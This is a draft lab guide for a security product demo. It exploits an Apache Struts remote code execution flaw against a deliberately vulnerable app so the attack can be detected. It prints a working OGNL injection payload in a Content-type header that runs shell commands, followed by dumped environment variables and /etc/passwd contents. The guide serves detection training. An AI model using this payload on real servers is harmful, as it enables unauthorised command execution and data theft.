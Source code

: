# Scenario: Detect Apache Struts RCE Vulnerability Exploitation

***DRAFT***

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o scenarios
```

Example output with ECS EC2:

```sh
loadbalancer_dns_health_check = "k8s-goat-healthch-e9104c52db-803985454.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_hunger_check = "k8s-goat-hungerch-0816ee11b2-1006982801.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_java_goof = "k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_system_monitor = "k8s-goat-systemmo-09a16052b6-565756108.eu-central-1.elb.amazonaws.com"
```

You want the variable `loadbalancer_dns_java_goof`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 3.120.84.56:80...
* Connected to k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com (3.120.84.56) port 80 (#0)
> GET /todolist/ HTTP/1.1
> Host: k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
WEB_APP_SERVICE_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT_HTTPS=443
TREND_AP_LOG_FILE=STDERR
JAVA_GOOF_SERVICE_SERVICE_PORT=8080
KUBERNETES_SERVICE_PORT=443
WEB_APP_SERVICE_PORT_80_TCP_ADDR=172.20.245.34
MAVEN_CONFIG=/root/.m2
MAVEN_PROJECTBASEDIR=/usr/src/goof
HOSTNAME=java-goof-6c95b8cd5f-qn49h
MAVEN_CMD_LINE_ARGS=/root/.m2 tomcat7:run
JAVA_GOOF_SERVICE_PORT_8080_TCP_PORT=8080
...
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com left intact
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-eks-struts-01.png "Exploit")
